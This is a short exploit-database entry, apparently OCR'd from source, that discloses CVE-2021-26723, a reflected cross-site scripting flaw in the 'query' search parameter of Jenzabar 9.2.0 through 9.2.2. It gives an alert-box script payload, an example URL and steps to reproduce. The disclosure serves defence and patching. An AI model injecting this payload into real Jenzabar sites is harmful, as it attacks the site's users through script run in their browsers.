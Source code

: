     # Exploit Title: Jenzabar 9.2.2 - 'query' Reflected XSS.
    # Date: 2021–02–06
    # Exploit Author: y0ung_dst
    # Vendor Homepage: https://jenzabar.com
    # Version: Jenzabar — v9.2.0-v9.2.1-v9.2.2 (and maybe other versions)
    # Tested on: Windows 10
    # CVE : CVE-2021–26723


    -Description:
      A Reflected Cross-site scripting (XSS) vulnerability in Jenzabar v9.2.0 through 9.2.2. Attacker could inject web script or HTML via the query parameter (aka the Search Field). To exploit the vulnerability, someone must click the link.

    -Payload used:
      "><script>alert(1)</script>

    -Example :
      https://localhost/ics?tool=search&query="><script>alert(1)</script>

    -Steps to reproduce:
      1. Open a website that use Jenzabar v9.2.0 through 9.2.2.
      2. In the Search Field, enter anything.
      3. Edit the query by replacing the text with the payload.
      4. Press Enter to trigger the alert.